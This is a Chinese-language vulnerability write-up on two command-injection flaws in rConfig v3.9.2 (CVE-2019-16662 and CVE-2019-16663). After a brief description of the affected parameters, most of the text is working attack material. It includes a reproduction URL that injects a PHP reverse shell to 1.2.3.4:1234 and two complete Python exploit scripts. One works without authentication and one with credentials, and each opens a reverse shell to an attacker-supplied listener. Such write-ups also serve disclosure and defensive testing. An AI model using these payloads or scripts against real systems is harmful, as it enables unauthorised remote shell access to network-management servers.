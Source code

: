 （CVE-2019-16662）（CVE-2019-16663）rConfig v3.9.2 远程命令执行
===============================================================

一、漏洞简介
------------

我在两个文件中分别发现了两个远程代码执行漏洞。第一个是ajaxServerSettingsChk.php，攻击者可以通过rootUname参数发送精心构造的一个GET请求，触发未授权RCE漏洞。rootUname参数在源文件第2行中定义，随后会在第13行传递给exec函数，攻击者可以构造参数接收内容实现让操作系统执行恶意命令。这个漏洞很容易利用和发现,后面的篇幅中我将介绍如何发现并利用这个漏洞。

第二个漏洞是在search.crud.php发现的，这文件需要通过身份验证才能触发远程代码执行漏洞。这个漏洞可以通过构造一个包含有两个参数的GET请求触发，其中searchTerm参数可以包含任意值，但该参数必须存在，才能执行到第63行的exec函数。

二、漏洞影响
------------

rConfig v3.9.2

三、复现过程
------------

    https://www.0-sec.org/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=`php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId24.png)

pyton脚本一

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId25.png)

python脚本二

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()

![](resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId26.png)
